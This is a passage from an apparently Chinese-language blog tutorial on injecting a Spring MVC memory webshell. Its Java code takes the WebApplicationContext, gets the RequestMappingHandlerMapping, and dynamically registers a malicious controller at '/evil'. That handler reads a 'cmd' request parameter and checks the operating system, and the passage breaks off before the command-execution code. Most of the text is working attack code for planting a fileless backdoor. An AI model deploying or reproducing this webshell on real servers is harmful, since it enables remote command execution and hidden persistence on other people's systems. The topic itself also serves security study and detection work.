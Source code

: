 看了这个类源码中的注释,大概意思呢就是

这个类是生命周期还未结束的bean们的一个曝光适配器,建立了一个当前bean们和他们的依赖的快照

可以将bean和他们的依赖对应关系保存起来??

##### 获取RequestMappingHandlerMapping

首先需要获取`RequestMappingHandlerMapping`对象,有了这个对象,后面创建的RequestMappingInfo才能往里面注册

`WebApplicationContext`继承了BeanFactory,可以用它里面的getBean方法获取`RequestMappingHandlerMapping`

```java
RequestMappingHandlerMapping requestMappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
```

所以就要先获取`WebApplicationContext`才能获取到`RequestMappingHandlerMapping`对象





获取到`RequestMappingHandlerMapping`对象就可以开始构造`RequestMappingInfo`了,将写好的恶意内部类和恶意方法同构造好的`RequestMappingInfo`一起使用`requestMappingHandlerMapping#registerMapping`注册到`requestMappingHandlerMapping`中

![image-20220422112630154](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220422112630154.png)

代码

```java
@RestController
public class evilController {

    @RequestMapping("/inject")
    public String inject() throws NoSuchMethodException {

        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        
        RequestMappingHandlerMapping requestMappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);

        PatternsRequestCondition url = new PatternsRequestCondition("/evil");

        RequestMethodsRequestCondition requestMethodsRequestCondition = new RequestMethodsRequestCondition();
        
        Method method = injectController.class.getMethod("evil" );
        RequestMappingInfo requestMappingInfo = new RequestMappingInfo(url,requestMethodsRequestCondition,null,null,null,null,null);

        injectController injectController = new injectController();

        requestMappingHandlerMapping.registerMapping(requestMappingInfo,injectController,method);
        
        return "inject";
    }
    @RestController
    public class injectController{

        public String evil()throws Exception{
     //request也可以直接写成参数public String evil(HttpServletRequest request)
            HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
            
            String cmd = request.getParameter("cmd");
            StringBuffer res = new StringBuffer();
            //加一个系统的判断
            String os = System.getProperty("os.name");
```